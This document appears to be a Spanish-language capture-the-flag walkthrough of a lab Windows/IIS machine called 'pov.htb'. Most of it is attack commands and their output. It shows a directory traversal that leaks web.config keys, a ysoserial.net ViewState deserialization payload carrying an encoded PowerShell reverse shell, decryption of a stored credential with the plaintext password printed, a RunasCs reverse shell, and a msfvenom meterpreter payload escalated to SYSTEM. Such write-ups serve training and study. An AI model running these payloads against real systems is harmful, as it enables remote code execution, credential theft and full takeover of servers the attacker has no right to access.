# Initial Recon

Comenzamos nuestros escaneos con nmap.

```
> sudo nmap -sS -p- --open --min-rate 3000 -Pn -n -vvv 10.10.11.251 -oG nmap 

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127
```

```bash
> nmap -p80 -sVC 10.10.11.251 -oN Ports


PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Solo encontramos un puerto, que en este caso es una Web:
Web.



Buscamos en el sitio pero no encontramos nada interesante.

Searching Subdomains

Hacemos fuzzing de subdominios:

```bash
ffuf -u http://10.10.11.251 -H "Host: FUZZ.pov.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```



Encontramos un subdominio llamado ``dev.pov.htb``:



Si investigamos un poco la página, podemos ver que en varias partes menciona ASP.NET, lo que ya nos deja claro que la página está hecha en este.



En el botón de descargar cv podemos ver esto:



Enviamos la solicitud a la burpsuite



Si nos fijamos en el parámetro file está llamando al pdf de la CV

## Directory Traversal

Podemos intentar ver el fichero ``etc/hosts``



hay un archivo llamado ``web.config``, que puede ser de interés:



Ysoserial

Vamos a generar un payload con la herramienta Ysoserial que nos permite crearlos en .NET: https://github.com/pwntester/ysoserial.net

Usamos el powershell base64: https://www.revshells.com/

> Ejecutamos esto desde una máquina windows para crear la cadena que vamos a enviar a la máquina víctima:

```bash
./ysoserial.exe -p ViewState -g WindowsIdentity --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio" -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAwADkAIgAsADkAMAAwADEAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

Insertamos nuestro payload en el parámetro ``VIEWSTATE``, como sigue:



Estoy escuchando en el puerto 9001:

```bash
sudo rlwrap -cAr nc -lvnp 9001 
```



Después de buscar en diferentes rutas de máquinas:

```bash
Path                    
----                    
C:\Users\sfitz\Documents
```
## Lateral Movement

podemos ver un archivo xml que contiene lo siguiente:

```bash
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">alaading</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb54340c2929419cc739fe1a35bc88000000000200000000001066000000010000200000003b44db1dda743e1442e77627255768e65ae76e179107379a964fa8ff156cee21000000000e8000000002000020000000c0bd8a88cfd817ef9b7382f050190dae03b7c81add6b398b2d32fa5e5ade3eaa30000000a3d1e27f0b3c29dae1348e8adf92cb104ed1d95e39600486af909cf55e2ac0c239d4f671f79d80e425122845d4ae33b240000000b15cd305782edae7a3a75c7e8e3c7d43bc23eaae88fde733a28e1b9437d3766af01fdf6f2cf99d2a23e389326c786317447330113c5cfa25bc86fb0c6e1edda6</SS>
    </Props>
  </Obj>
</Objs>
```


Utilizaré el comando PowerShell Import-CliXml para leer el fichero y obtener la contraseña en texto plano

```bash
$cred = Import-CliXml -Path connection.xml
```

```bash
$cred.GetNetworkCredential().Password
```

llevamos las runas a la máquina víctima:

https://github.com/antonioCoco/RunasCs

Creamos un servidor smb para pasar este archivo a la máquina víctima:

```bash
sudo impacket-smbserver share -smb2support /tmp/share -user test -password test 
```

crear una carpeta tmp en C:\ en la máquina víctima:

```bash
net use n: \\10.10.14.109\share /user:test test
```

```bash
copy n:\RunasCs.exe
```
I run the runas:

```bash
.\RunasCs.exe alaading f8gQ8fynP44ek1m3 cmd.exe -r 10.10.14.109:4444
```

estamos escuchando:

```bash
rlwrap -cAr nc -lnvp 4444
```

desde el powershell podemos ver este priv.
What is SeDebugPrivilege?

hl privilegio SeDebugPrivilege en Windows permite a un usuario realizar depuración a nivel de sistema. En términos simples, con este privilegio, un usuario puede:

- Accede a todos los procesos del sistema: Incluidos los que normalmente están protegidos y son inaccesibles, como los procesos del sistema operativo y los servicios críticos.

- Modificar o finalizar procesos protegidos: El usuario puede terminar procesos que los usuarios estándar normalmente no podrían detener.

- Leer y escribir en la memoria de cualquier proceso: Esto incluye la capacidad de inyectar código o realizar modificaciones en tiempo real en los procesos en ejecución.

Este privilegio es muy poderoso y suele estar reservado a las cuentas del sistema y a los administradores, ya que puede utilizarse para saltarse casi todas las medidas de seguridad del sistema operativo.



# Privilege Escalation

Creamos un archivo con msfvenom:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.109 LPORT=6969 -f exe -o platanoo.exe
```

Pasamos el archivo de vuelta a la máquina víctima:

```bash
sudo impacket-smbserver share -smb2support /tmp/share -user test -password test
```

```powershell
net use n: \\10.10.14.109\share /user:test test
```

```powershell
copy n:\platanoo.exe
```

ahora estamos escuchando al meterpreter:

```bash
msfconsole
```

```bash
msf6 > use exploit/multi/handler
```

```bash
msf6 > set payload windows/x64/meterpreter/reverse_tcp
```

```bash
set LHOST tun0
```

```bash
set LPORT 6969
```

```bash
run
[*] Started reverse TCP handler on 10.10.14.109:6969 
```

Ahora ejecutamos el .exe en la máquina víctima:

```bash
./platanoo.exe
```



Migraremos a este proceso

```bash
meterpreter > migrate 552
[*] Migrating from 2032 to 552...
[*] Migration completed successfully.
```

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```